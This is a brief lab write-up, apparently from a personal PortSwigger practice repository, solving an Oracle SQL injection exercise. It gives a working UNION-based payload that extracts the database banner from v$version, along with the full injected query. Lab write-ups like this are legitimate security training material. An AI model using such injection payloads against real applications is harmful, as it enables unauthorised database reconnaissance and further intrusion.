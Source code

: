 ## Lab Description: SQL injection attack, querying the database type and version on Oracle

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/25571c47-3460-41b7-8363-704f83ec43cf)

### Solution:

The SELECT version FROM v$instance only returns the version number, the first one, SELECT banner FROM v$version, returns the full version string that is requested. 

Therefore I need to inject `' UNION SELECT 'a',banner FROM v$version--` to obtain the version information with the following query:

` SELECT * FROM someTable WHERE category='Pets' UNION SELECT 'a',banner FROM v$version-- `

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/a9038f3d-f473-46f4-a3b0-4ea2fd45057a)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f09cf081-c157-48c4-9b1b-54c357d8af12)
